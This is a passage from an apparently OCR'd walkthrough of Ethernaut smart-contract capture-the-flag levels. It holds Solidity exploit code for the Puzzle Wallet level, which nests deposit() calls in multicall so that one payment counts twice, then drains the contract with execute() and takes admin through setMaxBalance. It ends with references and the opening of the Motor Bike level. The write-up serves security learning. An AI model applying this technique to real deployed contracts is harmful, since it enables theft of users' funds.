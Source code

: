 We compose the data in the following way

```solidity
// let's craft the deposit call
bytes memory depositCalldata = abi.encodeWithSignature("deposit()");

// bundle deposit into into multicall_1
bytes[] memory multicall1Params = new bytes[](1);
multicall1Params[0] = depositCalldata;
bytes memory multicall1CallData = abi.encodeWithSignature("multicall(bytes[])", multicall1Params);

// bundle deposit (again) and multicall_1
bytes[] memory multicall0Params = new bytes[](2);
multicall0Params[0] = depositCalldata;    // reusing deposit
multicall0Params[1] = multicall1CallData; // are you confused enough?
```

As we tricked the balance with the same deposit, twice, we can just drain

```solidity
// as our balance is 0.002, we can call execute(), draining the contract
// don't forget to set up receive() in this contract
bytes memory b;
target.execute(address(this), 0.002 ether, b);
```

#### Complete the level

```solidity
// and now we can modify slot1 which is admin/maxBalance
target.setMaxBalance(uint160(address(this)));
```

### References

* https://blog.openzeppelin.com/proxy-patterns/
* https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies
* https://eips.ethereum.org/EIPS/eip-1967
* https://docs.openzeppelin.com/contracts/4.x/api/proxy
* https://github.com/OpenZeppelin/ethernaut/blob/768071ef1d337a01d41261473687c095bd56f96f/contracts/contracts/helpers/UpgradeableProxy-08.sol
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/1a60b061d5bb809c3d7e4ee915c77a00b1eca95d/contracts/proxy/Proxy.sol
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/1a60b061d5bb809c3d7e4ee915c77a00b1eca95d/contracts/utils/Address.sol

## 25 Motor Bike

To beat this level, we need to comply with

```solidity
!Address.isContract(engines[_instance])
```

As `engines[address(motorbike)] = address(engine)`, the level wants us to _destroy_ the engine.
